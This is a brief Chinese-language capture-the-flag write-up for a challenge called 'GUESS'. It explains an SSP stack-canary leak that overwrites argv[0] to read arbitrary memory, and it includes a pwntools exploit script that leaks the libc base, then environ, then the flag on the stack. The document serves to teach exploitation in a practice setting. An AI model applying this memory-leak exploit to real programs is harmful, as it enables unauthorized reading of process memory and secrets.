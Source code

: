 &nbsp;&nbsp;&nbsp;&nbsp;<font size=2>因为这题非常简单，但我想到了泄露一个栈地址用来计算栈偏移泄露出flag但我不知道那个变量叫environ，在libc里面，诶还是经验不足啊</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>典型的ssp我就不讲了，只要覆盖到argv[0]就能泄露任意地址了，但也不要过长。</font></br>

脚本
======

```python

from pwn import *

DEBUG=0

p=process('./GUESS')
#p=remote('106.75.90.160',9999)

if DEBUG==1:
  context.log_level='debug'
  gdb.attach(p)

leak_addr=0x602020

p.recv()

p.sendline(p64(leak_addr)*38)

#p.recv()
#p.recv()

p.recvuntil(': ')
libc_base=u64(p.recv(6).ljust(8,'\x00'))-0x6f690

log.info(hex(libc_base))
environ=libc_base+0x3C6F38

p.sendline(p64(environ)*38)
p.recvuntil(': ')
flag_addr=u64(p.recv(6).ljust(8,'\x00'))-0x168

log.info(hex(flag_addr))

p.sendline(p64(flag_addr)*38)
p.recvuntil(': ')
print p.recvline()

```
